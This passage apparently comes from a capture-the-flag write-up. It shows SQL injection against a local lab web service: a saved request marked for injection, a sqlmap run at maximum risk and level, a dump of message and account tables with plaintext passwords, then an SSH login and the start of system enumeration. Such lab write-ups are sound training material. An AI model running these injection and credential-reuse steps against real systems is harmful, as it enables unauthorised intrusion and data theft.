 ## Exploitation 

To exploit this vulnerability, let's use sqlmap. 

1. Save the vulnerable request and replace the `'` with a wildcard `*`.

```
# req.txt
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:45793
// [Headers goes here] // 

{"metadata":[{"name":"token","value":"INSERT-VALID-TOKEN-HERE"}],"data":[{"id":"*"}]}
```

Running sqlmap:

```bash
sqlmap -r req.txt --risk 3 --level 5
```
The scan detects that the database is [SQLite3](https://www.sqlite.org/index.html) and dumps it. Since it's a serverless database, we can't find any information about the system. The database consists of two tables: messages and accounts.

If you want to gain a deeper understanding of injecting in SQLite3, make sure to check out [this paper](https://www.exploit-db.com/docs/41397).

```
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```

Trying to login via SSH with the `sau` user, we get a shell. 

## Privilege Escalation

#### Local Enumeration (sau)

Enumerating system's information:

---
- id: `uid=1001(sau) gid=1001(sau) groups=1001(sau)`
- system: `Ubuntu 20.04.6 LTS`
- users: `sau`, `root`.
- kernel: `Linux pc 5.4.0-148-generic #165-Ubuntu x86_64 GNU/Linux`
- sudo enabled: `yes, but not for sau.`

---